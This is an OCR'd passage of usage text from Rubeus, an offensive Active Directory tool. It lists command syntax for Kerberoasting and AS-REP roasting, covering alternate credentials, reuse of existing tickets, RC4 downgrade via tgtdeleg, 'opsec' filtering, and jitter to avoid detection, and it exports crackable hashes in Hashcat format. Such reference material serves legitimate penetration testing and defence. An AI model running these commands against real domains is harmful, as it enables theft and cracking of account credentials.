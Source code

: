         Perform Kerberoasting with alternate credentials:
            Rubeus.exe kerberoast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/spn:"blah/blah"] [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/nowrap]

        Perform Kerberoasting with an existing TGT:
            Rubeus.exe kerberoast </spn:"blah/blah" | /spns:C:\temp\spns.txt> </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT using an enterprise principal:
            Rubeus.exe kerberoast </spn:user@domain.com | /spns:user1@domain.com,user2@domain.com> /enterprise </ticket:BASE64 | /ticket:FILE.KIRBI> [/nowrap]

        Perform Kerberoasting with an existing TGT and automatically retry with the enterprise principal if any fail:
            Rubeus.exe kerberoast </ticket:BASE64 | /ticket:FILE.KIRBI> /autoenterprise [/ldaps] [/nowrap]

        Perform Kerberoasting using the tgtdeleg ticket to request service tickets - requests RC4 for AES accounts:
            Rubeus.exe kerberoast /usetgtdeleg [/ldaps] [/nowrap]

        Perform "opsec" Kerberoasting, using tgtdeleg, and filtering out AES-enabled accounts:
            Rubeus.exe kerberoast /rc4opsec [/ldaps] [/nowrap]

        List statistics about found Kerberoastable accounts without actually sending ticket requests:
            Rubeus.exe kerberoast /stats [/ldaps] [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts with an admin count of 1 (custom LDAP filter):
            Rubeus.exe kerberoast /ldapfilter:'admincount=1' [/ldaps] [/nowrap]

        Perform Kerberoasting, requesting tickets only for accounts whose password was last set between 01-31-2005 and 03-29-2010, returning up to 5 service tickets:
            Rubeus.exe kerberoast /pwdsetafter:01-31-2005 /pwdsetbefore:03-29-2010 /resultlimit:5 [/ldaps] [/nowrap]

        Perform Kerberoasting, with a delay of 5000 milliseconds and a jitter of 30%:
            Rubeus.exe kerberoast /delay:5000 /jitter:30 [/ldaps] [/nowrap]

        Perform AES Kerberoasting:
            Rubeus.exe kerberoast /aes [/ldaps] [/nowrap]

        Perform Kerberoasting using an account without pre-auth by sending AS-REQ's:
            Rubeus.exe kerberoast </spn:""blah/blah"" | /spns:C:\temp\spns.txt> /nopreauth:USER /domain:DOMAIN [/dc:DOMAIN_CONTROLLER] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth:
            Rubeus.exe asreproast [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/des] [/nowrap]

        Perform AS-REP "roasting" for any users without preauth, outputting Hashcat format to a file:
            Rubeus.exe asreproast /outfile:hashes.txt /format:hashcat [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU=,..."] [/ldaps] [/des]

        Perform AS-REP "roasting" for any users without preauth using alternate credentials:
            Rubeus.exe asreproast /creduser:DOMAIN.FQDN\USER /credpassword:PASSWORD [/user:USER] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/ou:"OU,..."] [/ldaps] [/des] [/nowrap]


